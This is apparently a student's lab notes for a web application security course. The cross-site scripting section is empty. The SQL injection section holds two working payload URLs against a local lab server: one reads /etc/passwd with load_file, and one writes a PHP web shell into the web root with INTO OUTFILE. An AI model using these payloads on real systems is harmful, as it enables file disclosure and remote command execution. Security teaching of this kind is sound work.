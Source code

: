 # Language-based Security

## Lab 3 - Web Application Security

### Part 1: Cross-Site Scripting (XSS)



### Part 2: SQL Injection

http://localhost/admin/edit.php?id=0%20union%20select%201,2,load_file("/etc/passwd"),4

http://localhost/admin/edit.php?id=0%20union%20select%201,2,%22%3C?php%20system($_GET[%27cmd%27]);%20?%3E%22,4%20into%20outfile%20%22/var/www/css/webshell.php%22